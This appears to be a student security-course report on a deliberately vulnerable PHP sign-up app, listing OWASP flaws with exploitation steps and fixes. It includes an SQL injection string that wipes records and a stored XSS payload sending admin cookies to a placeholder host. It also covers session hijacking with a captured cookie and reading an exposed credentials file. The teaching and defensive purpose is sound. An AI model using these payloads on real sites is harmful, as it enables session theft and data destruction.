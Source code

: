 # The Report

This project is done with PHP in a LAMP environment.<br> 
See https://github.com/j0ly/firstproject/blob/master/README.md for installation instructions.

There are many problems with the code, but I will only mention the most relevant problems and the most important fixes (as I see them) for each OWASP vulnerability, without going into details. Had to draw a line somewhere, otherwise I could have ended up spending so much time with this (and the assignment didn’t say how specific we needed to be about the fixes). 

The OWASP vulnerabilities:

## A1

**How:** Sign up some users to the event. Check from the Admin page. Then go to the Cancel page and enter: '''' OR '1'='1'''. All the sign-ups are now gone, as you can see from the Admin page!    

**Fix:** The “mysqli_real_escape_string” function can be used in “delete.php” on the $ticket variable, to prevent the SQL-injection (as used in “done.php” on other variables). But a simple input validation (fixed length + lowcase alfanum only) would also fix the problem in this case.
## A2
a) Guessable fixed admin credentials (admin/password), which are stored in the source code (login.php) with no encryption. 
b) The cookie-session-id and the clear text admin credentials are sent over an unencrypted connection. You can see them with OWASP ZAP.
How (broken session management): You can get access to the Admin page using the stolen cookie-session-id like this (but before you begin, install the “Advanced Cookie Manager” Firefox add-on): 
1) Go to the Admin login-page with Firefox (but don’t log in, - if you are not asked for the credentials then close the browser and try again). 
2) Open “Advanced Cookie Manager” and enter the cookie-session-id you saw with OWASP ZAP into the "Value" box, replacing the existing one (delete first, then paste). Save the change.
3) Re-enter the Admin page (do not only reload), and you’re in without entering credentials!
Note: You can use OWASP ZAP together with another browser, to capture the cookie-session-id, when logging in.
Fix: Use SSL for the website (see the GitHub Readme)! 

Besides that, the session could be re-generated and the old one destroyed with some intervals. And the session could be made to timeout sooner.  The “secure” and “path” parameters could be used for the session cookie (+ httponly to defend against A3).
The admin credentials could be stored in the database with the password salted + hashed. The admin should be able to change (at least) the password. 
## A3
There are both Stored and Reflected XSS vulnerabilities. The Stored XSS code can be entered on the SignUp page, and executed on the Admin page when listing the sign-ups. 
How (stored XSS): Enter this code into the address field on the SignUp page;
<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>
When the admin logs in and takes a look at the sign-ups, his session-id should be written to the logs of “yourserver”. But you can also test with code like this, in any of the fields on the SignUp page; 
<body onload=alert('hello')>
Fix:  Html codes should be escaped using the htmlspecialchars or htmlentities PHP-functions + the input validated as tightly as possible (length, allowed characters, format etc.).

## A6
Credit card numbers are sent without SSL in cleartext with POST, and stored unencrypted in the database. And, the session cookie and the admin credentials can be stolen since SSL is not in use (see A2).

How: Capture the (imaginary) credit card numbers using OWASP ZAP.

Fix: Again, use SSL! 

But there are many requirements when handling credit card data, see https://en.wikipedia.org/wiki/Payment_Card_Industry_Data_Security_Standard
Regarding the session cookie and admin credentials, see the A2-fix.
## A7
The database credentials are stored in an easy to guess plaintext config file, inside the web-root, and is lacking access control.
How: Modify “yourserver” in this link to match your installation;  http://yourserver/firstproject/admin/config.ini. Then open this link with your browser, and you should see the credentials.
Fix: 

